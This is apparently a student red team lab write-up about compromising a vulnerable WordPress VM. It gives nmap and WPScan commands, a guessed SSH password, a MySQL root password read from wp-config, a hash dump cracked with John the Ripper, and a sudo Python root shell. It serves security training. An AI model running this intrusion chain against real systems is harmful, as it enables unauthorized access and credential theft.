 # Red Team: Summary of Operations
 
## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation
 
### Exposed Services
 
 
Nmap scan results for each machine reveal the below services and OS details:
 
Command: $ nmap -sV 192.168.1.110
  
  
![redteam1](https://user-images.githubusercontent.com/91024338/143156404-1f4162a4-e0e5-4385-884b-4daf231ff115.JPG)

 
This scan identifies the services below as potential points of entry:
 
- Target 1
 
  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn 
  - Port 445/TCP Open netbios-ssn
 
The following vulnerabilities were identified on each target:
 
- Target 1
  - Weak user password
  - User enumeration (WordPress site)
  - Unsalted user password hash (WordPress site)
  - Misconfiguration of user privileges and user escalation
 
### Exploitation
 
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - Flag1: b9bbcb33ellb80be759c4e844862482d
    - **Exploit Used**
      - Used WPScan to enumerate users of the Target 1 WordPress site
	-Used Brute Force to guess Michael’s password
  - Command:
      - wpscan --url http://192.168.1.110/wordpress/ --enumerate u

![redteam2](https://user-images.githubusercontent.com/91024338/143157109-f730c529-0fa3-4934-8e58-291f6b2721f3.JPG)
![redteam3](https://user-images.githubusercontent.com/91024338/143157142-49c0c5f1-e7e1-4bc6-9784-072e6d685ee6.JPG)
![redteam4](https://user-images.githubusercontent.com/91024338/143157159-d5dc97d7-2bb9-4106-9649-ce2bd54a666b.JPG)
![redteam5](https://user-images.githubusercontent.com/91024338/143157180-25422c20-6bb0-4bdb-8500-d297f4d7c77b.JPG)




      -Password:michael
      - SSH in michael: ssh michael@192.168.1.110
      - cd var/www/html
      - ls -l
      - nano service.html (Flag1 located) 

![redteam6](https://user-images.githubusercontent.com/91024338/143157402-7ddab105-f4dc-48ea-9d14-77bf279cd6b9.JPG)
![redteam7](https://user-images.githubusercontent.com/91024338/143157412-0322b2b3-9699-4138-88ee-9061cc2c84ea.JPG)
![redteam8](https://user-images.githubusercontent.com/91024338/143157425-b9a86fe8-902b-416e-9068-45047c6628fe.JPG)


 
  - Flag2: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Used WPScan to enumerate users of the Target 1 WordPress site
      - Used password from previous Brute Force
      -Password: michael
      - ssh michael@192.168.1.110
      - cd var/www
      - ls 
      - cat flag2.txt
            
![redteam9](https://user-images.githubusercontent.com/91024338/143157461-5f80f5d5-3ed2-4d53-9237-b3a63c09179b.JPG)
      
      
- Flag3:afc01ab56b50591e7dccf93122770cd2

**Exploit Used**
Same exploits used to gain Flag 1 and 2:
Accessing MySQL Database
-Commands
	-cd /var/www/html/wordpress
	-cat wp_config.php
	-mysql -u root -p’R@v3nSecurity’ 
	-show databases;
	-use wordpress;
	-show tables;
	-select * from wp_posts;

![redteam10](https://user-images.githubusercontent.com/91024338/143157686-13ad1e0a-309f-433e-b0fe-e992eedce83a.JPG)
![redteam11](https://user-images.githubusercontent.com/91024338/143157712-ba16df30-7895-4d8c-a329-1f761bba46b2.JPG)
![redteam12](https://user-images.githubusercontent.com/91024338/143157739-a0724fed-e838-45b7-ac73-ededead52c1e.JPG)
![redteam13](https://user-images.githubusercontent.com/91024338/143157753-940e3539-dd53-415b-9027-df1ea24d8cd2.JPG)




 
 
Flag4:715dea6c055b9fe3337544932f2941ce
	-**Exploit used**
- Used MySQL database to gain access to user credentials.
- Used John the Ripper to crack the password hash.
- Used Python to gain root privileges.
- User credentials are stored in the ‘wp_users table’ in the wordpress database.
- I copied/saved the usernames and password hashes to my Kali machine in a file named wp_hashes.txt.
-Commands:
	-mysql -u root -p’R@v3nSecurity’ 
	-show databases;
	-use wordpress;
	-show tables;
	-select * from wp_users;

![redteam14](https://user-images.githubusercontent.com/91024338/143157919-218bf1ae-63f2-4b22-80a1-ac2fc98b7226.JPG)

 
-Commands:
	- cd /usr/share/wordlist
	- john --wordlist=rockyou.txt wp_hashes.txt
 
![redteam15](https://user-images.githubusercontent.com/91024338/143158223-3eea04ea-f1bb-4539-ac76-f2fd9583a468.JPG)
![redteam16](https://user-images.githubusercontent.com/91024338/143158252-026f0a7d-8737-418b-af1f-fd98361847e2.JPG)


 
-Results: 
-Steven’s password: pink84
 
- After I cracked Steven’s password I SSH as Steven, checked for root      
  privileges and escalated to root with Python.
-Commands:
	-ssh steven@192.168.1.110
	-password: pink84
	- sudo -l
	- sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
	- cd /root
	- ls
	- cat flag4.txt

![redteam17](https://user-images.githubusercontent.com/91024338/143158406-09a79c6d-99e1-4246-95fa-82b1abd1b3f1.JPG)
![redteam18](https://user-images.githubusercontent.com/91024338/143158420-fe0269f5-e475-41ad-b374-4b1e0d07e08b.JPG)
![redteam19](https://user-images.githubusercontent.com/91024338/143158438-ac7b1fac-acd6-48ea-ac5b-aa9e31184597.JPG)

 

 

